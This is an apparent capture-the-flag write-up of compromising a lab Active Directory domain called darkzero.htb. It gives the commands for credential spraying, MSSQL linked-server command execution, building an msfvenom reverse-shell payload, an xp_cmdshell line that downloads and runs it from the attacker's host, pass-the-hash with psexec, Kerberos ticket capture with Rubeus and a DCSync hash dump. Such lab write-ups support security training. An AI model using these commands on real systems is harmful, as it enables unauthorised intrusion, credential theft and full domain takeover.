import PasswordProtect from "~/components/PasswordProtect.client";

```
Scope:
10.10.11.89

Creds:
john.w
RFulUtONCOL!
```

# Recon
## Nmap

```bash
sudo nmap -sC -sV -sT -p- -vvvv -T5 --min-rate=5000 -Pn darkzero.htb                                                                                                                                                                                                             
PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2025-11-14 18:27:45Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
1433/tcp  open  ms-sql-s      syn-ack Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.10.11.89:1433: 
|     Target_Name: darkzero
|     NetBIOS_Domain_Name: darkzero
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: darkzero.htb
|     DNS_Computer_Name: DC01.darkzero.htb
|     DNS_Tree_Name: darkzero.htb
|_    Product_Version: 10.0.26100
|_ssl-date: 2025-11-14T18:29:23+00:00; +2h10m01s from scanner time.
| ms-sql-info: 
|   10.10.11.89:1433: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
2179/tcp  open  vmrdp?        syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
3269/tcp  open  ssl/ldap      syn-ack Microsoft Windows Active Directory LDAP (Domain: darkzero.htb0., Site: Default-First-Site-Name)
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49690/tcp open  msrpc         syn-ack Microsoft Windows RPC
49692/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49911/tcp open  msrpc         syn-ack Microsoft Windows RPC
49940/tcp open  msrpc         syn-ack Microsoft Windows RPC
49986/tcp open  msrpc         syn-ack Microsoft Windows RPC
49998/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 35679/tcp): CLEAN (Timeout)
|   Check 2 (port 52653/tcp): CLEAN (Timeout)
|   Check 3 (port 7628/udp): CLEAN (Timeout)
|   Check 4 (port 32811/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 2h09m58s, deviation: 2s, median: 2h09m57s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-11-14T18:28:41
|_  start_date: N/A
```

<PasswordProtect client:load>

## nxc

Since we already got valid creds I decided to use `nxc` to spray the credentials





I then tested out the `mssql` protocol and noticed that I was able to make queries:



Having found this info I used `impacket-mssqlclient` to log in.

## 1433/TCP - MSSQL



However the current user did *not* have permissions to execute `cmd` prompts:


What did work was the `enum_links` command which showed us that there was a second server:



Using this link we can get access to **DC02** and execute arbitrary commands:



# DC02 Foothold
## Reverse shell as svc_sql

Now that we've found a way to execute commands we can go ahead and get ourselves a reverse shell:





Unfortunately there's no easy way to escalate privs:



Running basic enumeration commands tells us that this host is a **Windows Server 2022** machine:


There are no hotfixes or installed patches, meaning it's a clean install. Let's look for priv esc options.

# DC02 Privilege Escalation
## CVE-2024-30088

During enumeration I found a fitting CVE that we could exploit here:



I tried to upload the following `poc.exe` and execute it in order to escalate my privs.



However one oversight was that it would launch a new shell. This would work if I had RDP access but since I only had a CLI shell this did not work.

### msfconsole - FAIL

Instead I launched `msfconsole`:

```bash
msfconsole -q -x "use exploit/multi/handler; set LHOST tun0; set LPORT 443; set payload windows/x64/meterpreter/reverse_tcp; run"
```



I created the `msfvenom` payload for it:

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.42 LPORT=443 -f exe -o shell.exe 
```

On the `mssqlclient` session I used the following:

```bash
exec xp_cmdshell "powershell iwr -uri http://10.10.14.42/shell.exe -outfile C:\Users\Public\shell.exe"
exec xp_cmdshell "C:\Users\Public\shell.exe"
```





By running the exploit suggester I find that the target is indeed vulnerable to the previous found CVE:



:::fail
For some reason this exploit just did not want to work. I tried it many times over and over and even reverted the machine, it did not work. I then grabbed up the *Administrator* hash from a fellow player and used a `ligolo` tunnel to log in. 
The intention was to exploit the CVE then do some post-exploitation where the hash would be discovered.
:::

## Tunneling

Since the exploit just kept failing I logged in with the provided NT hash instead:





```bash
impacket-psexec Administrator@172.16.20.2 -hashes ":6963aad8ba1150192f3ca6341355eb49"
```



### user.txt

The user flag was found inside the *Administrator*'s Desktop directory:



# DC01 Foothold
## Pivoting

Now that we've compromised the **DC02** target we'll have to pivot over to the **DC01** host. In order to do this we'll log into the `mssqlclient` again and try to steal a ticket by abusing the `smb` protocol using `rubeus.exe`:





Once uploaded we'll run `rubeus` in monitor mode:

```powershell
Rubeus.exe monitor /interval:1 /nowrap
```

Right away we notice some output, however this is from the same system:



What we need is a TGT ticket from the users over on **DC01**. I'll use the following command from a new `mssqlclient` instance to get this:

```bash
exec xp_dirtree '\\DC02.darkzero.ext\\testing'
```



Over in the `rubeus` terminal I notice the output:



I copied the `base64` output over and converted it to a `.ccache` ticket:

```bash
echo "doIFjDCCBYig.....xEQVJLWkVSTy5IVEI=" | base64 -d > ticket.kirbi
impacket-ticketConverter ticket.kirbi admin.ccache
```





# DC01 Privilege Escalation
## dcsync

All that's left now is to `dcsync` the **DC01** target in order to fetch the hashes:

```bash
impacket-secretsdump -k -no-pass darkzero.htb/'DC01$'@DC01.DARKZERO.HTB
```



We can now easily log in as *Administrator*:

